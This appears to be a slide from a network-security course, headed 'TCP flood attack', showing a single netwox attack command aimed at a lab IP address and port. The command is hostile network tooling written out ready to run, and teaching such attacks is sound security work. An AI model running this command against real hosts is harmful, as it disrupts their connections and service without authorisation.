

# TCP洪水攻擊
netwox 79 -i 192.168.56.101 –p 49213
30